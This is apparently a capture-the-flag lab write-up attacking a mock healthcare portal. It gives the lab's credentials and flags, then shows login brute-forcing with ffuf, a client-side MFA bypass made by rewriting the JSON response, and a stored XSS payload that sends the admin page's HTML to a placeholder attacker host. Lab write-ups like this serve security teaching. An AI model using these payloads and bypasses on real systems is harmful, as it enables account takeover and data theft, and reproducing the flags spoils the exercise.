




Authorized lab. Author: Tyler Ramsbey. Solved 2026-08-07.
| Target | 10.1.124.164 · Express on :80 |
| Valid user | m.thompson@healthsmarter.hsm / Care4All! |
| Flag 1 | HSM{e78322f22ccb4eb8b4277e8491e00982} |
| Flag 2 | HSM{35dca15a0eb94bd781f82ff45f070bff} |

/api/login).POST /api/login
{"username":"m.thompson@healthsmarter.hsm","password":"Care4All!"}
→ {"success":true,"redirect":"/mfa.html"}Use the challenge username/password lists with ffuf clusterbomb; filter on size ≠ 77 (failed login).
After password login the app sends you to MFA. The SPA only checks JSON fields:
// mfa.html (conceptually)
if (data.success) window.location.href = data.redirect;Bypass: intercept POST /api/mfa/verify failure and replace body with:
{"success": true, "redirect": "/dashboard.html"}Also observed: dashboard.html is reachable while mfaVerified:false (server-side gap). Flag 1 is on the patient dashboard.

Helpdesk form posts to /api/tickets (needs Referer: …/dashboard.html). Admin panel loads tickets and injects message via innerHTML (re-executes scripts).
HttpOnly blocks document.cookie theft. Exfiltrate the rendered page instead:
<script>
fetch('http://ATTACKER:8902/x?html='+encodeURIComponent(document.documentElement.outerHTML))
</script>

innerHTML.HttpOnly is necessary but not sufficient against XSS (DOM/data exfil).